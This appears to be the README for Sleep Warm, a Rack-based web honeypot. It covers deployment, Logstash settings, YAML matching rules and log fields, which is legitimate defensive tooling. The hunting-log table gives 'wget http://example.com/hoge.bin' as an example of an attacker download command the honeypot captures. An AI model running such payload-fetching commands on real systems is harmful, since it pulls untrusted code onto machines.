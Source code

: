 # Sleep Warm

[![Build Status](https://travis-ci.org/ninoseki/sleep_warm.svg?branch=master)](https://travis-ci.org/ninoseki/sleep_warm)
[![Maintainability](https://api.codeclimate.com/v1/badges/46dcae2391a2a7f5dcb5/maintainability)](https://codeclimate.com/github/ninoseki/sleep_warm/maintainability)
[![Coverage Status](https://coveralls.io/repos/github/ninoseki/sleep_warm/badge.svg?branch=master)](https://coveralls.io/github/ninoseki/sleep_warm?branch=master)

A web-based low-interaction honeypot build on [Rack](https://github.com/rack/rack). This honeypot is highly inspired by [WOWHoneypot](https://github.com/morihisa/WOWHoneypot).

## Concepts

- Easy to install.
  - One-click deployment to Heroku or just execute [Itamae](http://itamae.kitchen/) scripts.
- Easy to customize.
  - Matching rules and default responses are customizable via editing YAML files.
- Well tested.

## Supported

- Ubuntu 16.04 LTS and Ruby 2.5.

## Installation

### Prerequirement

You will need an Elasticsearch instance for log analysis because Sleep Warm can only deal with Logstash logging.

### Deploy on Heroku

You can deploy Sleep Warm on Heroku by clicking the button below and follow the instructions.

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/ninoseki/sleep_warm)


### Deploy by Itamae

You can automatically deploy Sleep Warm on Ubuntu by using [Itamae](http://itamae.kitchen/).

You will need Ruby 2.5 & Itamae for the auto deployment.

```sh
$ git clone https://github.com/ninoseki/sleep_warm.git
$ cd sleep_warm
# install Sleep Warm
$ itamae ssh -h HOST -u USER cookbooks/sleep_warm/default.rb
# install ufw and its settings for the Sleep Warm
$ itamae ssh -h HOST -u USER cookbooks/sleep_warm/ufw.rb
```

And then the honeypot works as `sleep-warm.service` on `80/tcp` and `9292/tcp`.

After the deployment, please set your Elasticsearch settings in `/opt/sleep-warm/.env` and restart the service. (By default, Sleep Warm outputs Logstash log to STDOUT.)

```
# Do not change this
RACK_ENV=production
# The hostname which Logstash sends the data for
LOGSTASH_HOST=localhost
# The port which Logstash sends the data for
LOGSTASH_PORT=9300
# (Optional) The token which Logstash send the data with.
LOGSTASH_TOKEN=YOUR_TOKEN
```

## Matching rules

The matching rules are stored in `/opt/sleep-warm/app/rules` as YAML files.

The rule file format:

```yaml
---
meta:
  id: 1001
  enable: true
  note: hoge
trigger:
  method: GET
  uri: hoge
  header: hoge
  body: hoge
response:
  status: 200
  header:
    Server: Apache/2.0.48
    Content-Type: text/html
  body: hoge
```

The rule matches a request which  HTTP method is `GET` and request URI contains `hoge` and header contains `hoge` and body contains `hoge`.

## Log

Sleep Warm outputs 2 types of logs.

### Access log

- Access log of the honeypot.

| key          | desc.                       | e.g.                                                                                                                        | type   |
|:-------------|:----------------------------|:----------------------------------------------------------------------------------------------------------------------------|:-------|
| client_ip    | Client IP                   | `10.0.2.2`                                                                                                                  | string |
| hostname     | Hostname                    | `localhost:9292`                                                                                                            | string |
| method       | HTTP method                 | `GET`                                                                                                                       | string |
| uri          | Request URI                 | `http://localhost:9292`                                                                                                     | string |
| http_version | HTTP version                | `HTTP/1.1`                                                                                                                  | string |
| status       | Status code                 | `200`                                                                                                                       | number |
| rule_id      | Matched rule id             | `1001` (if there is no matching results, it will be set as `0`)                                                             | number |
| user_agent   | User agent                  | `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36` | string |
| all          | Base64 encoded HTTP request | -                                                                                                                           | string |

### Hunting log

- Hunting log of the honeypot.

| key       | desc.                                    | e.g.                               | type   |
|:----------|:-----------------------------------------|:-----------------------------------|:-------|
| client_ip | Client IP                                | `10.0.2.2`                         | string |
| commands  | Commands which try to download something | `wget http://example.com/hoge.bin` | string |
